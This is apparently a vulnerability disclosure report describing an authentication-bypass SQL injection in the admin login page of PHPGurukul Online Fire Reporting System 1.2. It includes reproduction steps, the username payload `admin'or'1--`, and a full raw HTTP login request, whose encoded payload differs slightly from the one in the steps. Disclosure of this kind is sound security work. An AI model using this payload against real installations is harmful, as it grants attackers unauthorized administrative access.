 # Description

A SQL Injection vulnerability exists in the `ofrs/admin/index.php`
 script of PHPGurukul Online Fire Reporting System 1.2. The
 vulnerability allows attackers to bypass authentication and gain
 unauthorized access by injecting SQL commands into the username input
 field during the login process. 

# PoC Report

 ## Environment Setup

 - Vendor Homepage: https://phpgurukul.com/online-fire-reporting-system-using-php-and-mysql/
 - Software Link: https://phpgurukul.com/projects/Online-Fire-Reporting-System-using-PHP.zip
 - Version: V 1.2
 - Tested on: Windows 11 + XAMPP 8.0.30

 ## Exploit Description

 SQL Injection Vulnerability in ofrs/admin/index.php :
 The SQL injection vulnerability in the ofrs/admin/index.php script arises from insecure handling of user input during the login process.

 ## Steps to Reproduce

 1. Open the admin panel page by following URL : http://localhost/ofrs/admin/index.php
 2. Enter the following payload from username-box : `admin'or'1--`
 3. Press Login button or press Enter.

 ## Proof Of Concept
```
 POST /ofrs/admin/index.php HTTP/1.1
 Host: localhost
 Content-Length: 46
 Cache-Control: max-age=0
 sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
 sec-ch-ua-mobile: ?0
 sec-ch-ua-platform: "Windows"
 Upgrade-Insecure-Requests: 1
 Origin: http://localhost
 Content-Type: application/x-www-form-urlencoded
 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
 Sec-Fetch-Site: same-origin
 Sec-Fetch-Mode: navigate
 Sec-Fetch-User: ?1
 Sec-Fetch-Dest: document
 Referer: http://localhost/ofrs/admin/index.php
 Accept-Encoding: gzip, deflate, br
 Accept-Language: en-US,en;q=0.9
 Cookie: PHPSESSID=fmnj70mh1qo2ssv80mlsv50o29
 Connection: close

 username=admin%27or%27--&inputpwd=&login=login
```


## Vulnerability Type
 SQL Injection


## Vendor of Product
 online_fire_reporting_system_project



 ## Affected Product Code Base
 online_fire_reporting_system - v1.2

 ## Affected Component
 ofrs/admin/index.php script
